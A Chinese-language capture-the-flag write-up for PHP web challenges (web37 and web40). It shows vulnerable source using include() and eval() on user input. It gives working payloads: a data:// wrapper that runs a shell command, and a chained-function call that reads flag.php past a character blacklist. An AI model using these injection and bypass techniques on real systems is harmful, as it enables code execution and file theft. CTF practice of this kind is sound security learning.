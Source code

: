 ```php
<?php

//flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        include($c.".php");
    }
        
}else{
    highlight_file(__FILE__);
}
```
强制加了一个后缀，不过没什么吊用，payload最后已经闭合，代码必然会执行。
web38不用闭合也能出，但这个题就必须要闭合
payload：/?c=data://text/plain,<?=`tac *`;?>
## web40（各种php函数）
```php
<?php

if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/[0-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\/i", $c)){
        eval($c);
    }
        
}else{
    highlight_file(__FILE__);
}
```
好家伙，这个过滤，看来只能用php内置函数了
介绍几个函数：

- localeconv() 返回包含本地数字及货币信息格式的数组，第一个元素通常是点.
- pos() 返回数组中当前元素的值，等价的还有current() reset()
- scandir() 列出目录中的文件和目录
- array_reverse() 数组逆序输出
- next() 取数组下一个元素，默认是取第二个
- show_source() 查看代码

接下来就可以打出一套组合拳：

- 构造pos(localeconv())得到.
- scandir(pos(localeconv()))得到scandir(.)即扫描当前目录下所有文件，本题猜测应该是 . .. flag.php index.php 
- array_reverse(scandir(pos(localeconv())))逆序输出得到index.php flag.php .. .
- next(array_reverse(scandir(pos(localeconv()))))得到flag.php
- show_source(next(array_reverse(scandir(pos(localeconv())))))得到flag.php内容

最后payload：/?c=show_source(next(array_reverse(scandir(pos(localeconv())))));
## web41（待完成）
